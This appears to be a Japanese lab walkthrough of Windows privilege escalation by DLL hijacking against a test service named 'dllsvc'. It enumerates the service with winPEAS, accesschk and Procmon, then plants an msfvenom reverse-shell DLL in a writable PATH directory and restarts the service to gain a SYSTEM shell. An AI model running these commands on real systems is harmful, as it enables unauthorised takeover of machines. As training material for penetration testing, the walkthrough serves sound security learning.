

多くの場合、サービスはDLL（ダイナミックリンクライブラリ）と呼ばれるライブラリから機能を読み込もうとします。DLLが提供する機能は、それをロードしたサービスと同じ権限で実行されます。 DLLが絶対パスでロードされた場合、そのDLLがユーザーによって書き込み可能であれば、権限をエスカレートできる可能性があります。   
# Privilege Escalation
1. winPEASを使用して、非Windowsサービスを列挙する。
```
> .\winPEASany.exe quiet servicesinfo
```
2. C:\Temp ディレクトリは書き込み可能で、PATH に入っていることに注意してください。まず、ユーザーがどのサービスに停止・開始アクセスできるかを列挙することから始めます。
```
> .\accesschk.exe /accepteula -uvqc user dllsvc
.\accesschk.exe /accepteula -uvqc user dllsvc
R  dllsvc
	SERVICE_QUERY_STATUS
	SERVICE_QUERY_CONFIG
	SERVICE_INTERROGATE
	SERVICE_ENUMERATE_DEPENDENTS
	SERVICE_START
	SERVICE_STOP
	READ_CONTROL
```
3. dllsvc" サービスは、DLL ハイジャックに対する脆弱性があります。winPEASの出力によると、このサービスはdllhijackservice.exeの実行ファイルを実行します。これを手動で確認することができます。
```
> sc qc dllsvc
sc qc dllsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: dllsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DLL Hijack Service\dllhijackservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DLL Hijack Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
4. Procmon64.exeを管理者権限で実行します。Ctrl+Lキーを押して、フィルタメニューを開きます。
5. dllhijackservice.exeに一致するプロセス名で新しいフィルタを追加します。
6. 


7. メイン画面で、レジストリのアクティビティとネットワークのアクティビティを選択解除します。
8. サービスを開始します。
```
> net start dllsvc
```
9. Procmonに戻ると、hijackme.dllファイルに関連する「NAME NOT FOUND」エラーが多数表示されることに注意してください。



10. ある時点で、Windows は C:\Temp ディレクトリにあるファイルを探そうとしますが、このディレクトリは先に見つけたように、このユーザーが書き込み可能です。
11. Kali上で、hijackme.dllという名前のリバースシェルDLLを生成します。
```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f dll -o hijackme.dll
```
12. DLLをWindows VMにコピーし、C: \Tempディレクトリにコピーします。   
```
> copy \\192.168.100.153\tools\hijackme.dll C:\Temp
```
13. Kali上でリスナーを開始し、サービスを停止/開始すると、エクスプロイトがトリガーされます。
```
> net stop dllsvc
> net start dllsvc
```